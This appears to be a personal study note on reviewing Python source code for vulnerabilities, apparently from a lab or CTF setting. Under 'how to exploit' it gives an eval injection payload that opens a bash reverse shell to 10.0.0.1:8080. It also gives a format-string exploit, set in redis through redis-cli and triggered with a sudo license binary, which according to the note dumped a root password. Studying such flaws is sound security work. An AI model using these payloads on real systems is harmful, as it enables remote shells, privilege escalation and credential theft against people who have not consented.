 ```yaml
---
creation date: May 19th 2023
last modified date: May 19th 2023
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[Python Source Code Review]]  
___

## Description:  

### Eval
Can execute code
source
```
def addition(a, b):  
  return eval("%s + %s" % (a, b))result = addition(request.json['a'], request.json['b'])  
print("The result is %d." % result)
```
expect input:
```
{"a":"1", "b":"2"}
```
how to exploit:
```
{"a":"__import__('os').system('bash -i >& /dev/tcp/10.0.0.1/8080 0>&1')#", "b":"2"}
```

### Format String Exploit
https://podalirius.net/en/articles/python-format-string-vulnerabilities/

Look for curly brackets in source code:
```
license_key = (prefix + username + "{license.license}" + firstlast).format(license=l)
```
you need to use the correct class (not self like in the link above, in this case its license), and then choose a variable you want to dump (secret).
```
secret = [line.strip() for line in open("/root/license/secret")][0]
```

In this specific example, the script was pulling from a redis database, so the exploit was set there with `{license.__init__.__globals__[secret]}`:

```
/usr/bin/redis-cli -s /var/run/redis/redis.sock HSET test username "{license.__init__.__globals__[secret]}"

sudo /usr/bin/license -p test
```
This allowed me to dump secret, which was a password to the root account.

___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: May 19th 2023 (09:53 am)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
